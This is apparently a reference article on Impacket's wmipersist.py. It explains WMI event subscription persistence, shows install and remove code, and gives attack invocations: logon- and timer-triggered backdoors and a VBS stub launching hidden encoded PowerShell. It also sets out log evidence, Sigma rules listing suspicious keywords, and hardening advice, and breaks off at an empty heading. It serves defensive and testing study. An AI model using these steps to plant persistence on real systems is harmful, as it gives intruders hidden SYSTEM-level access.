

title: "wmipersist.py"
script: "examples/wmipersist.py"
category: "Remote Execution"
status: "Published"
protocols:
  - DCOM
  - WMI
  - MSRPC
ms_specs:
  - MS-DCOM
  - MS-WMI
  - MS-WMIO
mitre_techniques:
  - T1546.003
  - T1047
  - T1021.003
auth_types:
  - password
  - ntlm_hash
  - kerberos
  - aes_key
tags:
  - impacket
  - impacket/examples
  - category/remote_execution
  - status/published
  - protocol/dcom
  - protocol/wmi
  - ms-spec/ms-dcom
  - ms-spec/ms-wmi
  - technique/wmi_event_subscription
  - technique/persistence
  - technique/fileless
  - mitre/T1546.003
  - mitre/T1047
  - mitre/T1021.003
aliases:
  - wmipersist
  - impacket-wmipersist
  - wmi-event-subscription
  - wmi-persistence


# wmipersist.py

> **One line summary:** Remote WMI Event Subscription persistence installer and remover that creates the three WMI objects required for the technique cataloged as MITRE T1546.003 Windows Management Instrumentation Event Subscription: an `__EventFilter` object holding a WQL query that defines when the payload fires (either a WQL event query like process creation, or a timer via `__IntervalTimerInstruction`), an `ActiveScriptEventConsumer` object holding the VBScript payload to execute when the filter matches, and a `__FilterToConsumerBinding` object that associates the filter with the consumer so the subscription actually activates; all three objects are created in the `//./root/subscription` WMI namespace via authenticated DCOM calls against the target host, requiring local administrative privileges, and the resulting persistence survives reboots because the WMI repository is durable; payloads execute in the SYSTEM context via the `scrcons.exe` script consumer host process, which makes the subscription a fileless, highly privileged, reboot durable backdoor; the technique has been used extensively by threat actors including APT29 (Cozy Bear), Turla, Metador, and most famously in the 2020 SolarWinds / Solorigate supply chain incident; `wmipersist.py` is the canonical Python implementation of this persistence pattern for Linux attack hosts, authored by Alberto Solino (`@agsolino`); **continues Remote Execution at 6 of 7 articles (86% complete, one article away from full category closure with wmiquery.py remaining)**.

| Field | Value |
|:---|:---|
| Script | `examples/wmipersist.py` |
| Category | Remote Execution |
| Status | Published |
| Author | beto (`@agsolino`), Alberto Solino, Impacket maintainer |
| Primary protocols | DCOM (TCP 135 for endpoint mapper, high ports for IWbemServices interface), WMI over DCOM |
| Primary Microsoft specifications | `[MS-DCOM]` Distributed Component Object Model Protocol, `[MS-WMI]` Windows Management Instrumentation Remote Protocol, `[MS-WMIO]` Windows Management Instrumentation Encoding |
| MITRE ATT&CK techniques | T1546.003 Event Triggered Execution: Windows Management Instrumentation Event Subscription (primary), T1047 Windows Management Instrumentation (parent technique), T1021.003 Remote Services: Distributed Component Object Model (transport) |
| Authentication types supported | Password, NTLM hash (`-hashes LM:NT`), Kerberos (`-k`), AES key (`-aesKey`) |
| Impacket module dependencies | `dcerpc.v5.dcomrt.DCOMConnection`, `dcerpc.v5.dcom.wmi`, `dcerpc.v5.dtypes.NULL`, `impacket.examples.logger` |
| Notable historical use | APT29 (Cozy Bear), Turla, Metador, Solorigate / SolarWinds (2020), widespread cryptominer persistence |


## Prerequisites

This article builds on:

- [`wmiexec.py`](wmiexec.md) for WMI and DCOM foundations. wmiexec established the WMI class model, the Win32_Process::Create invocation pattern, the DCOM activation flow, and the authentication options that wmipersist reuses without reexplanation.
- [`dcomexec.py`](dcomexec.md) for broader DCOM object abuse context (MMC20.Application, ShellWindows, ShellBrowserWindow). wmipersist uses DCOM differently, not for one shot command execution via a COM method, but to create persistent WMI objects, yet the underlying DCOM authentication and activation model is the same.
- [`psexec.py`](psexec.md) and [`smbexec.py`](smbexec.md) for the broader Remote Execution category context. wmipersist is the persistence sibling to those execution tools: where they run a command now and exit, wmipersist installs something that runs later and keeps running.
- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for the overall Impacket architecture.

Familiarity with WQL (WMI Query Language), the WMI class hierarchy, and MOF (Managed Object Format) is helpful but not required.


## What it does

`wmipersist.py` has two subcommands: `install` and `remove`. Canonical invocations:

```text
$ wmipersist.py domain.acme.local/admin:Passw0rd@10.10.10.20 install \
    -name ASEC \
    -vbs payload.vbs \
    -filter "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name = 'calc.exe'"

Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] ActiveScriptEventConsumer created
[*] EventFilter created
[*] FilterToConsumerBinding created

$ wmipersist.py domain.acme.local/admin:Passw0rd@10.10.10.20 remove -name ASEC

Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] FilterToConsumerBinding removed
[*] EventFilter removed
[*] ActiveScriptEventConsumer removed
```

The `install` subcommand creates three WMI objects on the target host in the `//./root/subscription` namespace:

1. **`ActiveScriptEventConsumer`** named by `-name`. Holds the VBScript payload from the file passed to `-vbs`. This is the action that executes when the subscription fires.
2. **`__EventFilter`** named by `-name`. Holds either the WQL query passed to `-filter` (trigger driven by events) or an `__IntervalTimerInstruction` reference (trigger driven by a timer via `-timer`). This is the condition that determines when the consumer fires.
3. **`__FilterToConsumerBinding`** associating the two above. Without this binding, the filter and consumer exist but remain dormant.

The `remove` subcommand deletes all three objects by the shared `-name` identifier, cleanly cleaning up the persistence.

Key characteristics:

- **Fileless (from the perspective visible to the attacker).** The VBScript payload lives inside the WMI repository at `%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA` as a field on the consumer object, not as a standalone file on disk in a path the operator chose. The script is regenerated from the repository at trigger time into `scrcons.exe` memory.
- **Persistent across reboots.** The WMI repository is durable and survives reboots. The subscription reinstates automatically when the WMI service starts.
- **Executes as SYSTEM.** The WMI provider host (`scrcons.exe` for ActiveScript consumers) runs as LocalSystem, so the VBScript payload runs with the highest privileges.
- **Requires local admin on target.** Creating objects in `root/subscription` requires the creator be a member of the local Administrators group (a rule Microsoft enforces at the WMI layer). You cannot install WMI persistence as a regular user.
- **No explicit file written to the target filesystem by Impacket**. The VBS content is passed over DCOM/WMI and stored in the WMI object's `ScriptText` property.


## Why it exists

Alberto Solino added `wmipersist.py` to Impacket as part of the broader WMI-over-DCOM library he built. The same DCOM infrastructure that powers `wmiexec.py` (one shot command execution via `Win32_Process::Create`) also powers object creation in any WMI namespace, including the `root/subscription` namespace where persistent event subscriptions live.

The tool's existence reflects three realities:

- **WMI Event Subscription is a persistence technique established in the literature**, documented in security research papers since at least 2014 (Matt Graeber's Black Hat 2015 "Abusing Windows Management Instrumentation (WMI) to Build a Persistent, Asynchronous, and Fileless Backdoor" is foundational reading). Attackers use it frequently. Defenders need to understand it. Having a reliable Python implementation from a legitimate tooling project supports both offensive testing and defensive research.
- **Existing tooling for Windows hosts** (Matt Graeber's PowerSploit, Empire's WMI modules, WMI-Shell, many POCs based on MOF files) requires running on or near a Windows host. Many engagements run Impacket from Linux or macOS attack hosts. wmipersist makes the technique available from any Python environment without needing to pivot through Windows.
- **The technique maps to a specific, clearly defined WMI object structure** (EventFilter + Consumer + FilterToConsumerBinding). A tool built with this single purpose that implements exactly this pattern is cleaner than cobbling it together with a generic WMI client.

wmipersist is intentionally simple. It does not support every consumer type (only ActiveScript). It does not support deeply customized consumer properties. It's a reference implementation of the canonical pattern, and the right starting point for operators or researchers building more sophisticated variants.


## WMI Event Subscription theory

Understanding wmipersist requires understanding how WMI event subscriptions work. This section is the core theory the rest of the article depends on.

### The three objects

A WMI Event Subscription consists of three linked objects in a WMI namespace (traditionally `root/subscription`, though persistence works in any namespace):

```text
┌─────────────────┐       ┌─────────────────────────┐       ┌──────────────────────┐
│  __EventFilter  │       │ __FilterToConsumer      │       │   EventConsumer      │
│                 │       │   Binding               │       │                      │
│  Name           │       │                         │       │  Name                │
│  Query (WQL)    │──────>│  Filter (ref)           │<──────│  (payload fields)    │
│  QueryLanguage  │       │  Consumer (ref)         │       │                      │
│  EventNamespace │       │                         │       │  (derived class,     │
└─────────────────┘       └─────────────────────────┘       │   e.g.               │
                                                            │   ActiveScript or    │
                                                            │   CommandLine)       │
                                                            └──────────────────────┘
```

- **`__EventFilter`** (system class, prefixed with `__`): defines the TRIGGER. Contains a WQL query that WMI continuously evaluates. When the query matches an event (like a process being created), the filter fires.
- **`EventConsumer`** (abstract base class; concrete types are subclasses): defines the ACTION. Each consumer type represents a different kind of payload:
  - **`ActiveScriptEventConsumer`**: runs a VBScript or JScript string via the Windows Script Host. Payload lives in `ScriptText` property.
  - **`CommandLineEventConsumer`**: runs a command line directly via `CreateProcess`. Payload lives in `CommandLineTemplate` property.
  - **`NTEventLogEventConsumer`**: writes to the Windows Event Log.
  - **`SMTPEventConsumer`**: sends email.
  - **`LogFileEventConsumer`**: appends to a text file.
  - Only the first two are relevant to attackers. wmipersist.py specifically creates `ActiveScriptEventConsumer` objects.
- **`__FilterToConsumerBinding`**: the ASSOCIATION. Links one filter to one consumer. Without the binding, neither object does anything; they're just data sitting in the repository. WMI activates the subscription the moment a valid binding is created, assuming the CreatorSID check passes (Administrators group membership required for ActiveScript and CommandLine consumers).

### The trigger options

The `-filter` flag takes a WQL query string. Common patterns used in real subscriptions:

```sql
-- Trigger when calc.exe is launched (classic demonstration)
SELECT * FROM __InstanceCreationEvent WITHIN 5 
WHERE TargetInstance ISA 'Win32_Process' 
  AND TargetInstance.Name = 'calc.exe'

-- Trigger on user logon (event log entry)
SELECT * FROM __InstanceCreationEvent WITHIN 5 
WHERE TargetInstance ISA 'Win32_NTLogEvent' 
  AND TargetInstance.EventCode = 4624

-- Trigger on Windows Explorer start (runs once per interactive logon)
SELECT * FROM __InstanceCreationEvent WITHIN 5 
WHERE TargetInstance ISA 'Win32_Process' 
  AND TargetInstance.Name = 'explorer.exe'

-- Trigger when a specific named pipe is opened
SELECT * FROM __InstanceCreationEvent WITHIN 1 
WHERE TargetInstance ISA 'Win32_Process' 
  AND TargetInstance.CommandLine LIKE '%specific-trigger%'
```

`WITHIN 5` means "poll every 5 seconds." Smaller values are more responsive but generate more WMI overhead.

The `-timer` flag creates timer triggers via `__IntervalTimerInstruction` class. A timer of 3600000 milliseconds (1 hour) fires the consumer once an hour regardless of any other activity.

### The execution path

When a filter matches and a binding exists:

1. WMI infrastructure notices the event (a new `Win32_Process` instance, a new `Win32_NTLogEvent`, a timer elapsing, etc.).
2. WMI evaluates the bound filter's WQL against the event.
3. If the filter matches, WMI instructs the appropriate consumer provider to execute the consumer.
4. For `ActiveScriptEventConsumer`: the script consumer provider `scrcons.exe` is launched (or an existing one is reused), which loads the `ScriptText` content into the Windows Script Host and executes it.
5. For `CommandLineEventConsumer`: `wmiprvse.exe` spawns the command line directly via `CreateProcess`.

Both paths execute in the SYSTEM security context because the WMI service runs as SYSTEM. This is the privilege escalation implicit in the technique: an Administrator can install a subscription that, once triggered, executes arbitrary code as SYSTEM.

### The stealth properties

WMI Event Subscription is popular with attackers because:

- **Fileless from the operator's perspective**: no file chosen by the attacker lives on disk (the WMI repository is a legitimate system database, not an attacker artifact).
- **Reboot survival**: the repository is persistent; the subscription survives cleanly.
- **Trusted process execution**: payloads run from `scrcons.exe` or `WmiPrvSE.exe`, both legitimate Windows binaries. Simple detection based on process name fails.
- **SYSTEM privileges**: highest possible local privilege.
- **Event triggered**: can lie dormant for arbitrary time until a specific condition fires, making behavioral detection harder.
- **Network footprint limited to install time**: once installed, no C2 connection is needed unless the payload itself phones home.

These properties are exactly why APT29, Turla, and Solorigate adopted the technique. They are also exactly why defenders must instrument specifically for WMI persistence.

### Why `root/subscription` specifically

Subscriptions work in any WMI namespace, but `root/subscription` is the conventional location. Microsoft designed it as the default namespace for permanent event subscriptions. Legitimate management software (System Center, antivirus products, backup agents) registers there. Placing a malicious subscription in `root/subscription` gives some cover by mixing with legitimate entries.

Some attackers deliberately use other namespaces (`root/default`, `root/cimv2`, even custom namespaces) specifically to evade tools that only look at `root/subscription`. The Cyber Triage PowerShell snippet `Get-AllWMIBindings` recursively enumerates every namespace precisely to catch these.

wmipersist.py uses `root/subscription` exclusively. If a defender knows to check only that namespace, wmipersist's footprint is visible there. If a defender is sophisticated enough to enumerate all namespaces, they would also catch subscriptions installed elsewhere by other tools.


## How the tool works internally

The script is about 400 lines. Clean DCOM/WMI code with two execution paths (install / remove).

### Imports

```python
from impacket.dcerpc.v5.dcomrt import DCOMConnection, COMVERSION
from impacket.dcerpc.v5.dcom import wmi
from impacket.dcerpc.v5.dtypes import NULL
```

- `DCOMConnection` provides the underlying DCOM transport with authentication.
- `wmi` module exposes WMI-over-DCOM operations (get class, create instance, delete instance).
- `COMVERSION` controls the DCOM version negotiation (occasionally needed for compatibility with older Windows versions).

### Install flow

```python
def install(self):
    dcom = DCOMConnection(target, username, password, domain, lmhash, nthash, aesKey, oxidResolver=True)
    iInterface = dcom.CoCreateInstanceEx(wmi.CLSID_WbemLevel1Login, wmi.IID_IWbemLevel1Login)
    iWbemLevel1Login = wmi.IWbemLevel1Login(iInterface)
    iWbemServices = iWbemLevel1Login.NTLMLogin('//./root/subscription', NULL, NULL)
    iWbemLevel1Login.RemRelease()

    # Create the ActiveScriptEventConsumer
    eventConsumer, _ = iWbemServices.GetObject('ActiveScriptEventConsumer')
    eventConsumerInstance = eventConsumer.SpawnInstance()
    eventConsumerInstance.Name = name
    eventConsumerInstance.ScriptingEngine = 'VBScript'
    eventConsumerInstance.ScriptText = vbsFileContents
    iWbemServices.PutInstance(eventConsumerInstance.marshalMe())
    
    # Create the __EventFilter
    eventFilter, _ = iWbemServices.GetObject('__EventFilter')
    eventFilterInstance = eventFilter.SpawnInstance()
    eventFilterInstance.Name = name
    eventFilterInstance.QueryLanguage = 'WQL'
    eventFilterInstance.Query = wqlQuery  # from -filter or synthesized from -timer
    eventFilterInstance.EventNamespace = 'root/cimv2'
    iWbemServices.PutInstance(eventFilterInstance.marshalMe())
    
    # Create the __FilterToConsumerBinding
    binding, _ = iWbemServices.GetObject('__FilterToConsumerBinding')
    bindingInstance = binding.SpawnInstance()
    bindingInstance.Filter = f'__EventFilter.Name="{name}"'
    bindingInstance.Consumer = f'ActiveScriptEventConsumer.Name="{name}"'
    iWbemServices.PutInstance(bindingInstance.marshalMe())
```

(Simplified pseudocode reflecting the actual flow.)

Three `PutInstance` calls, each creating one WMI object. The binding is last because WMI requires both referenced objects to exist before the binding can reference them.

### Remove flow

```python
def remove(self):
    dcom = DCOMConnection(...)
    iWbemServices = iWbemLevel1Login.NTLMLogin('//./root/subscription', NULL, NULL)
    
    # Delete binding first (references both other objects)
    iWbemServices.DeleteInstance(f'__FilterToConsumerBinding.Consumer="ActiveScriptEventConsumer.Name=\\"{name}\\"",Filter="__EventFilter.Name=\\"{name}\\""')
    
    # Delete filter
    iWbemServices.DeleteInstance(f'__EventFilter.Name="{name}"')
    
    # Delete consumer
    iWbemServices.DeleteInstance(f'ActiveScriptEventConsumer.Name="{name}"')
```

Reverse order of creation. Binding first because it references the other two; removing the filter or consumer before the binding would orphan the binding.

### What the tool does NOT do

- Does NOT support `CommandLineEventConsumer` directly (only ActiveScript). Operators wanting CommandLine must modify the source.
- Does NOT support namespaces other than `root/subscription`. Operators wanting stealth by namespace choice must modify the source.
- Does NOT support alternate scripting engines beyond VBScript (JScript is in principle supported by `ActiveScriptEventConsumer` but the tool hardcodes `ScriptingEngine = 'VBScript'`).
- Does NOT list existing subscriptions. No enumeration mode. Operators must use PowerShell, `wmic`, or `Get-WmiObject` from a Windows host to audit existing subscriptions.
- Does NOT cover the full range of `__EventFilter` query types (only basic WQL and timer).
- Does NOT automatically generate triggering events. The operator must ensure the trigger condition will actually fire during the engagement window.


## Authentication options

Same options as every other WMI/DCOM tool in Impacket. See [`wmiexec.py`](wmiexec.md) for the full discussion; briefly:

| Option | Flag | Notes |
|:---|:---||
| Password | `user:password@host` | Interactive prompt if password omitted. |
| NTLM hash | `-hashes LM:NT` | Pass the hash. LM part is typically `aad3b435b51404eeaad3b435b51404ee` if only NTLM is known. |
| Kerberos | `-k` | Uses `KRB5CCNAME` ccache. Optionally `-no-pass` if ccache has what's needed. |
| AES key | `-aesKey <hex>` | Kerberos with AES256 key, common after secretsdump of krbtgt or user AES keys. |

All authentication types require the authenticated principal be a member of the local Administrators group on the target. DCOM remote activation plus `root/subscription` namespace permissions both require admin.


## Practical usage

### Install a calc.exe-triggered persistence

```bash
# Step 1: Write the VBS payload on the attacker host
cat > payload.vbs << 'EOF'
Dim objShell
Set objShell = CreateObject("WScript.Shell")
objShell.Run "cmd.exe /c powershell.exe -w hidden -enc <base64-encoded-payload>", 0, False
EOF

# Step 2: Install the subscription
wmipersist.py ACME/admin:Passw0rd@10.10.10.20 install \
    -name UpdateCheck \
    -vbs payload.vbs \
    -filter "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name = 'calc.exe'"

# Step 3: Verify (from a Windows host or via a separate WMI query)
Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name='UpdateCheck'"
```

Classic demonstration pattern. Payload fires when anyone launches calc.exe on the target. Good for lab demos; not operationally useful because users rarely launch calc.exe.

### Install a logon-triggered persistence

```bash
wmipersist.py ACME/admin:Passw0rd@10.10.10.20 install \
    -name SessionManager \
    -vbs payload.vbs \
    -filter "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name = 'explorer.exe'"
```

More realistic: the subscription fires on each interactive logon (Explorer starts). Gives persistence across user sessions.

### Install a persistence with a timer trigger

```bash
# Payload fires every 60 minutes
wmipersist.py ACME/admin:Passw0rd@10.10.10.20 install \
    -name HealthCheck \
    -vbs heartbeat.vbs \
    -timer 3600000
```

Timer-based subscriptions are the classic "heartbeat" pattern, common for beaconing persistence. Fires reliably on a schedule regardless of user activity.

### Install a privileged-logon-triggered persistence (targeted)

```bash
# Fires only when a Domain Admin logs on to the target
wmipersist.py ACME/admin:Passw0rd@10.10.10.20 install \
    -name AuditMonitor \
    -vbs token_stealer.vbs \
    -filter "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_LogonSession' AND TargetInstance.LogonType = 2"
```

More sophisticated: fires only when specific conditions are met. Reduces noise and targets the attack precisely at the moment of highest value (privileged logon).

### Remove the persistence

```bash
wmipersist.py ACME/admin:Passw0rd@10.10.10.20 remove -name UpdateCheck
```

Clean removal. Deletes all three objects in reverse dependency order.

### Enumerate existing subscriptions (not done by wmipersist, but part of the workflow)

```bash
# From a Windows host with admin on the target
Get-WmiObject -Namespace root/subscription -Class __EventFilter -ComputerName 10.10.10.20
Get-WmiObject -Namespace root/subscription -Class ActiveScriptEventConsumer -ComputerName 10.10.10.20
Get-WmiObject -Namespace root/subscription -Class __FilterToConsumerBinding -ComputerName 10.10.10.20

# Or via wmic (deprecated but still works)
wmic /node:10.10.10.20 /namespace:\\root\subscription path __EventFilter list
```

wmipersist does not include enumeration, so a tool running on Windows is typically used to audit what's present. This is relevant for both operators (checking their own footprint) and defenders (hunting for installed persistence).

### Kerberos authentication

```bash
export KRB5CCNAME=/tmp/admin.ccache
wmipersist.py -k -no-pass ACME/admin@target.acme.local install \
    -name KRBVIEW -vbs payload.vbs -timer 1800000
```

Standard Kerberos authentication. Works with tickets obtained via getTGT.py, ticketer.py, getST.py, or any other ccache source.

### Key flags

| Flag | Meaning |
|:---|:---|
| `install` / `remove` (subcommand) | Which operation to perform. |
| `-name <name>` | Shared identifier for all three objects. Used for install and remove. |
| `-vbs <file>` | (install only) VBScript file containing the payload. Content goes into `ScriptText` of the consumer. |
| `-filter <WQL>` | (install only) WQL query for the event filter. Defines the trigger condition. |
| `-timer <ms>` | (install only) Timer-based trigger in milliseconds. Alternative to `-filter`. |
| `-hashes LM:NT` | NTLM hash authentication. |
| `-k` | Kerberos authentication. Uses KRB5CCNAME. |
| `-aesKey <hex>` | AES key for Kerberos. |
| `-com-version MAJOR.MINOR` | DCOM version override. Rarely needed but occasionally necessary for legacy Windows compatibility. |


## What it looks like on the wire

WMI over DCOM is verbose. The install operation generates substantial traffic:

1. **TCP 135 connection** to the DCOM endpoint mapper.
2. **EPM request** asking where `IWbemLevel1Login` (UUID `F309AD18-D86A-11d0-A075-00C04FB68820`) is listening.
3. **EPM response** returning the dynamic port (e.g. 49152-65535).
4. **TCP connection to the dynamic port**.
5. **Authentication**: NTLM challenge-response or Kerberos AP_REQ.
6. **`NTLMLogin` call** to `//./root/subscription`.
7. **`GetObject('ActiveScriptEventConsumer')`**: retrieves the class definition.
8. **`SpawnInstance`**: creates a new instance locally from the class.
9. **Instance serialization**: the instance (with name, ScriptingEngine, ScriptText populated) is serialized per `[MS-WMIO]` encoding.
10. **`PutInstance`**: creates the object on the target.
11. Steps 7-10 repeat for `__EventFilter`.
12. Steps 7-10 repeat for `__FilterToConsumerBinding`.

The payload content is visible in the `PutInstance` call's serialized instance data in step 9 when the consumer is created. Any defender with DCOM visibility (Zeek DCE-RPC parser, Suricata DCERPC decode) can see:

- Connection to `root/subscription`
- Creation of `ActiveScriptEventConsumer`, `__EventFilter`, `__FilterToConsumerBinding` objects
- The full ScriptText content of the VBScript payload (unless SMB3 encryption or similar is in place)

### Wireshark filters

```text
dcerpc.uuid == "f309ad18-d86a-11d0-a075-00c04fb68820"    # IWbemLevel1Login
tcp.port == 135 or tcp.port in {49152..65535}            # DCOM traffic
dcerpc and frame contains "ActiveScriptEventConsumer"    # persistence install
dcerpc and frame contains "__FilterToConsumerBinding"    # binding creation
```

### Execution-time traffic

Once installed, the subscription fires locally on the target. No network traffic is generated for the firing itself unless the payload reaches out. Operators whose VBScript payload phones home via HTTP(S), DNS, etc. will generate the usual C2 traffic at fire time, not install time.


## What it looks like in logs

WMI Event Subscription leaves substantial evidence across multiple log sources. Each is partial; combined they provide strong detection.

### Microsoft-Windows-WMI-Activity/Operational

The WMI-Activity log is the primary WMI-side evidence channel.

- **Event 5858**: temporary event subscription (less relevant for persistence).
- **Event 5859**: permanent event subscription created. **Critical for detection.** Fires when `__EventFilter`, `ActiveScriptEventConsumer`, or `__FilterToConsumerBinding` is created. Event body includes the namespace, class name, query (for filters), and script text (for consumers). Log limit: the event body is truncated for very long script content.
- **Event 5860**: temporary event consumer activity.
- **Event 5861**: permanent event consumer activity (fires when a consumer executes). **Critical for detection** because it records each time the persistence actually fires.

Historically, Event 5861 was only logged in some Windows versions. Modern Windows 10/11 and Server 2016+ log it reliably.

### Sysmon events (highly recommended)

Sysmon provides cleaner, more reliable WMI subscription telemetry than the native WMI-Activity log.

- **Sysmon Event ID 19**: `WmiEventFilter activity detected`. Fires on every `__EventFilter` create/modify/delete. Records Operation (Created/Modified/Deleted), User, EventNamespace, Name, Query.
- **Sysmon Event ID 20**: `WmiEventConsumer activity detected`. Fires on every EventConsumer (ActiveScript, CommandLine, etc.) create/modify/delete. Records Operation, User, Name, Type, Destination.
- **Sysmon Event ID 21**: `WmiEventConsumerToFilter activity detected`. Fires on every `__FilterToConsumerBinding` create/modify/delete. Records Operation, User, Consumer, Filter.

When wmipersist.py installs a subscription, all three Sysmon events fire. The User field shows which account created the objects: the authenticated admin whose credentials were used.

### Process creation evidence (Event 4688 or Sysmon 1)

When the subscription fires:

- `scrcons.exe` is launched by the WMI service if not already running (for ActiveScript consumers).
- If the VBS payload uses `CreateObject("WScript.Shell")` and runs commands, those child processes appear as children of `scrcons.exe`.
- `scrcons.exe` launched outside of an administrative context is suspicious because it typically runs only when a subscription fires.

For CommandLine consumers (not what wmipersist creates, but relevant to the broader technique): the payload runs as a child of `WmiPrvSE.exe`.

### The WMI repository file

The repository itself lives at `%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA` (plus index files). All subscriptions end up in this binary database. Forensic investigators can parse the repository offline to enumerate all subscriptions, including any that were installed and then deleted but not yet compacted.

### Autoruns (Sysinternals)

Microsoft's Autoruns utility includes a dedicated WMI tab that enumerates subscriptions. It catches:

- `ActiveScriptEventConsumer` instances in `root/subscription`
- `CommandLineEventConsumer` instances in `root/subscription`

It does NOT catch subscriptions in other namespaces, nor other consumer types, nor inactive subscriptions (no binding). For wmipersist.py specifically, Autoruns will surface the installed subscription cleanly because it lives in `root/subscription` with an ActiveScriptEventConsumer.

### Starter Sigma rules

```yaml
title: WMI Permanent Event Subscription Created (Persistence T1546.003)
logsource:
  product: windows
  service: sysmon
detection:
  selection_filter:
    event_id: 19
    operation: Created
  selection_consumer:
    event_id: 20
    operation: Created
  selection_binding:
    event_id: 21
    operation: Created
  condition: selection_filter or selection_consumer or selection_binding
fields:
  - User
  - EventNamespace
  - Name
  - Query
  - Destination
level: high
```

Catches every WMI subscription component creation. Tuning required to whitelist subscriptions known to be good from management software. A baseline of "what exists legitimately in this environment" is essential for effective tuning.

```yaml
title: Suspicious WMI ActiveScriptEventConsumer Content
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    event_id: 20
    type: 'Script'
  filter_suspicious:
    destination|contains:
      - 'powershell'
      - 'cmd.exe'
      - 'wscript'
      - 'cscript'
      - '-EncodedCommand'
      - 'DownloadString'
      - 'Invoke-Expression'
      - 'FromBase64String'
  condition: selection and filter_suspicious
level: critical
```

Content-based rule. Catches the common patterns in attacker VBScript: shell out to PowerShell, download remote code, invoke encoded commands. Very high fidelity; true positives are almost always attacks.

```yaml
title: scrcons.exe Spawning Suspicious Child Processes
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    event_id: 1
    parent_image|endswith: '\scrcons.exe'
  filter_suspicious:
    image|endswith:
      - '\powershell.exe'
      - '\cmd.exe'
      - '\rundll32.exe'
      - '\regsvr32.exe'
      - '\mshta.exe'
  condition: selection and filter_suspicious
level: critical
```

Process lineage rule. When a WMI ActiveScript subscription fires and spawns one of the common child processes that attackers favor, this rule catches the runtime execution even if detection at install time was missed. Works well for incident response and realtime detection.

### WMI-Activity-Operational 5861 rule (native Windows logs, no Sysmon required)

```yaml
title: WMI Permanent Event Consumer Execution (5861)
logsource:
  product: windows
  service: wmi-activity-operational
detection:
  selection:
    event_id: 5861
  condition: selection
fields:
  - EventID
  - User
  - Operation
  - ConsumerName
  - FilterQuery
level: medium
```

Medium severity because legitimate management consumers also fire. Combine with content inspection or whitelisting for higher fidelity.


## Detection and defense

### Detection opportunities

- **Sysmon Events 19/20/21** are the signal with highest fidelity. If Sysmon is deployed and forwarded, every wmipersist install fires three events that clearly identify the installer and the contents.
- **WMI-Activity Events 5859/5861** work in environments without Sysmon. Less structured but present on every Windows system.
- **Process lineage involving `scrcons.exe`** catches evidence at execution time even when logs at install time were missed or rotated.
- **WMI repository snapshots** via scheduled PowerShell enumeration provide a baseline vs current diff approach. Particularly useful for high value hosts where the expected subscription set should be small and stable.
- **Sysinternals Autoruns** in automated mode (sigcheck, Autorunsc) run periodically can surface new subscriptions.
- **MDE / EDR coverage** of WMI is variable; vendors that parse the repository and surface subscriptions as discoverable artifacts (Carbon Black, CrowdStrike, MDE with the right sensors) provide out-of-the-box detection.

### Preventive controls

- **Restrict DCOM remote activation** via firewall policy and `DCOMCnfg` settings. Blocking TCP 135 (and the dynamic high-port range) from untrusted network segments prevents remote WMI subscription installation entirely.
- **Restrict WMI remote access** via the `Allow remote WMI` group policy and appropriate ACLs on the `root` and `root/subscription` namespaces.
- **Aggressive privileged access hardening**: since wmipersist requires local admin on the target, preventing unauthorized admin acquisition (Tier 0 isolation, PAWs, JIT access, strong auth) is the root mitigation. Every persistence technique that requires admin is blocked if admin isn't compromised.
- **Deny/audit `ActiveScriptEventConsumer` and `CommandLineEventConsumer`** globally via WMI permissions. These consumer types are rarely needed legitimately outside System Center, antivirus, and backup agents. Allowlisting known legitimate consumers and denying everything else is a strong control.
- **WMI repository monitoring**: scheduled hashing / diffing of `OBJECTS.DATA` alerts on any change, though this is noisy because legitimate management activity modifies the repository.
- **Network segmentation**: limit who can reach TCP 135 on servers and high value workstations.

### What wmipersist.py does NOT do

